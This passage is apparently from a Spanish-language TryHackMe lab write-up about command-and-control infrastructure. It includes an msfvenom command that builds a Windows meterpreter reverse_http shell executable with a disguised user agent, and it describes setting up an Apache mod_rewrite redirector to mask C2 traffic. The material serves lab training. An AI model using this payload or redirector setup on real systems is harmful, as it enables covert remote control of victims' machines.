 <br />

*Nota: Es importante observar que en AttackThBox el puerto 80 (que es el puerto que está por defecto habilitado para Apache2) está en uso, hay que cambiar el puerto que por defecto utiliza Apache en el fichero /etc/apache2/ports.conf

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20220919154651.png' | relative_url }}" text-align="center"/>
</div>

<br />

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20220919154808.png' | relative_url }}" text-align="center"/>
</div>

<br />

- *Reverse_Http payload*: Ahora con Msfvenom vreamos un payload que consiste en una shell que se envía a través de HTTP:

```bash
msfvenom -p windows/meterpreter/reverse_http LHOST=tun0 LPORT=80 HttpUserAgent=NotMeterpreter -f exe -o shell.exe
```

Y una vez se ha ejecutado el binario en la víctima y hallamos establecido un intercambio de información entre la víctima y el C2 con el listener adecuado, podemos ver que la comunicación entre ambos se da en HTTP con una herramietna como Wireshark:

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20220919161249.png' | relative_url }}" text-align="center"/>
</div>

<br />

Hast aquí tendríamos un C2 Server enmascarado como un web server, ahora hay que modificar este web server para obtener un Redirector:

- *Modifying the Apache Config File*: En primer lugar revisamos el /etc/apache2/sites-available/000-default.conf:

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20220919173552.png' | relative_url }}" text-align="center"/>
</div>

Lo que debemos hacer es añadir un par de líneas al *config file* para habilitar la funcionalidad *Rewrite Engine*[](https://httpd.apache.org/docs/2.4/mod/mod_rewrite.html): Rewrite Engine On, esto nos permite habilitar reglas de redirección de URIs, seguidamente hay que añadir una regla con: RewriteCond %{HTTP\_USER\_AGENT\} "\^NotMeterpreter\$" porque sólo queremos matchear el User-Agent "NotMeterpreter"

<div style="text-align:center">
	<img src="{{ 'assets/img/THM/Pasted image 20220919174457.png' | relative_url }}" text-align="center"/>
</div>
